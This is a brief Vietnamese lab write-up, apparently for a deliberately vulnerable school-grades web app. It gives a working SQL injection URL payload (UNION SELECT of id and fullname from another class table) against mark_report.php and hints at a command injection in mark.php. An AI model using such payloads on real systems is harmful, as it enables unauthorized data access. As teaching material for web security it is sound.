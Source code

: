 # Write-up

## 1. SQL Injection:

- Chỗ thứ nhất: `<URL>/mark_report.php?classID=IA1501+UNION+SELECT+id,%20fullname+FROM+IA1502;`

![image](https://user-images.githubusercontent.com/61876488/220874057-ef594397-fe7e-422e-90d6-c3f71d3fa5bd.png)

Giải thích: đọc về lệnh [UNION trong SQL] và đọc code 40 file `cmdsqli/markreport.php`.

![image](https://user-images.githubusercontent.com/61876488/220873994-ae6a7423-0760-458c-bc08-af79c924f0b2.png)


- Chỗ thứ 2: bài tập về nhà, tự tìm.

## 2. Command Injection:

- Hint: đọc code dòng 3 file `mark.php`.
